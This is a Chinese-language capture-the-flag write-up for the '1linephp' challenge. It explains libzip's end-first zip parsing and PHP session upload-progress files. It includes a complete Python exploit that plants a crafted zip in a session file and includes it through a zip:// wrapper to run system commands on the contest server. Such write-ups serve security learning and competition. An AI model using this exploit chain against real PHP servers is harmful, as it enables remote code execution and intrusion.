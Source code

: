 ## 1linephp

#### solution

##### zip

php的zip extension使用的是libzip这个库，通过阅读libzip的源码可以发现，其解析zip文件的方式是从后往前的，先在文件末尾的一个范围内寻找EOCD的MAGIC，然后根据EOCD中的offset去读取CDH，最后根据CDH中的offset去读取压缩文件数据。

这种解析方式使得可以在zip的开头和末尾以及各个部分之间插入多余的数据，只需对应地修改两个offset就可以让libzip正常解析。

如果在zip_open时开启了ZIP_CHECKCONS这个选项，那么解析zip时的检查会更严格。

###### 备注

用 *zip* 工具修复offset: https://github.com/perfectblue/ctf-writeups/tree/master/2021/0ctf-2021-quals/onelinephp

在与参赛选手的交流中发现，其实是可以搜到相关的信息的：

- https://gynvael.coldwind.pl/?id=523
- http://roverdoge.top

##### session

PHP_SESSION_UPLOAD_PROGRESS: https://www.php.net/manual/zh/session.upload-progress.php

session.save_path: https://www.php.net/manual/zh/session.configuration.php#ini.session.save-path

利用这个特性可以在文件名可控的session文件中插入一段可控的数据，具体细节已有不少文章分析过，不再赘述。

除了竞争的做法以外，还可以用更稳定的做法。

> 当 [session.upload_progress.enabled](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.enabled) INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。

只要文件上传得慢一点，就可以让session文件中的上传进度信息保留得久一点，详见exp。

##### CcL's exp

```python
import requests
import socket

port = 50081
php_session_id = "dd9c6236c439f75b78cf6ef8d1efca31"
payload = b"ccl_PK\x03\x04\x14\x00\x00\x00\x08\x00\xe5Q\xd9Rs\xaei\xe7\x1d\x00\x00\x00 \x00\x00\x00\x0b\x00\x1c\x00include.phpUT\t\x00\x03-<\xd5`-<\xd5`ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00s\xb0\xb1/\xc8(PHM\xce\xc8WP\x89ww\r\x896\x88\xd5\x800\x0cc5\xad\xb9\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\xe5Q\xd9Rs\xaei\xe7\x1d\x00\x00\x00 \x00\x00\x00\x0b\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xa4\x81\x14\x00\x00\x00include.phpUT\x05\x00\x03-<\xd5`ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00Q\x00\x00\x00v\x00\x00\x00\x00\x00"


def exp():
    res = requests.get(
        f"http://111.186.59.2:{port}/",
        params={
            "yxxx": f"zip:///tmp/sess_{php_session_id}#include",
            "0": "system",
            "1": "cat /dd810fc36330c200a_flag/flag",
        },
    )
    print(res.text)


def build_http_request_packet(req: requests.PreparedRequest):
    packet = b""
    packet += f"{req.method} {req.path_url} HTTP/1.1\r\n".encode()
    for header, value in req.headers.items():
        packet += f"{header}: {value}\r\n".encode()
    packet += b"\r\n"
    if req.body is not None:
        if "Content-Length" in req.headers:
            if type(req.body) is str:
                packet += req.body.encode()
            else:
                packet += req.body
        else:
            for part in req.body:
                packet += f"{len(part):x}\r\n".encode()
                packet += f"{part}\r\n".encode()
            packet += b"0\r\n\r\n"
    return packet


def do_so():
    req = requests.Request(
        "POST",
        f"http://111.186.59.2:{port}/",
        headers={"Host": f"111.186.59.2:{port}"},
        cookies={"PHPSESSID": php_session_id},
        data={
            "PHP_SESSION_UPLOAD_PROGRESS": payload,
        },
        files={"file": ("simple.txt", b"ccl" * 4096)},
    )
    packet = build_http_request_packet(req.prepare())
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("111.186.59.2", port))
    s.sendall(packet[:-8])
    exp()
    s.sendall(packet[-8:])
    s.close()


if __name__ == "__main__":
    do_so()
```

#### unintended solution

把zip文件的前16个字节删除后作为payload即可。

预期解中session文件的内容为16字节prefix+修改offset后的zip+suffix。

非预期解中session文件的内容为16字节prefix+去除前16个字节后的zip+suffix。

##### why?

通过阅读libzip的源码可以发现，其在读取zip内的文件时，先根据CDH中的offset找到LFH的位置，然后在LFH块中并没有解析全部内容，而是直接根据相对位置读取file name length和extra field length，用这两个值的和再加上30作为压缩数据的offset，直接读取压缩数据。

因此，在本题中，文件的前16个字节对libzip没有任何意义，可以任意修改。

